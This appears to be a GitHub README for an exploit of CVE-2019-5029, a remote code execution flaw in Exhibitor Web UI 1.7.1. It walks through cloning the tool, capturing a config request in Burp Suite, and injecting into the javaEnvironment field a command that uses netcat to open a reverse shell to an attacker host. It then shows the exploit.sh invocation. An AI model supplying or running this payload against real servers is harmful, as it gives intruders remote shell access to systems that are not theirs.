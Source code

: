 # Exihibitor-RCE
Exihibitor Web Ui 1.7.1 RCE, CVE-2019-5029

## Step 1:

$ git clone https://github.com/thehunt1s0n/Exihibitor-RCE/

## Step 2:

$ cd Exihibitor-RCE/

## Step 3 (optional):

You might need to edit json data payload in the script. To do that simply capture the request using burpsuite when comiting the changes in the config tab of exihibitor and copy pasting into the curl command in the script.

<div style="text-align:center;">
  <img src="https://raw.githubusercontent.com/thehunt1s0n/Exihibitor-RCE/main/media/burpsuite_capture.png" alt="gif 1" width="400"/>
</div>

Make sure to change the javaEnvironment with the following:

"javaEnvironment":"$(/bin/nc -e /bin/sh '$ATTACKER_HOST' '$ATTACKER_PORT' &)"


## Step 4:

./exploit.sh <host> <port> <attacker_host> <attacker_port>

Example:

$ ./exploit.sh 192.168.197.98 8080 192.168.45.187 8080

![gif](https://raw.githubusercontent.com/thehunt1s0n/Exihibitor-RCE/main/media/Exihibitor_capture.gif)
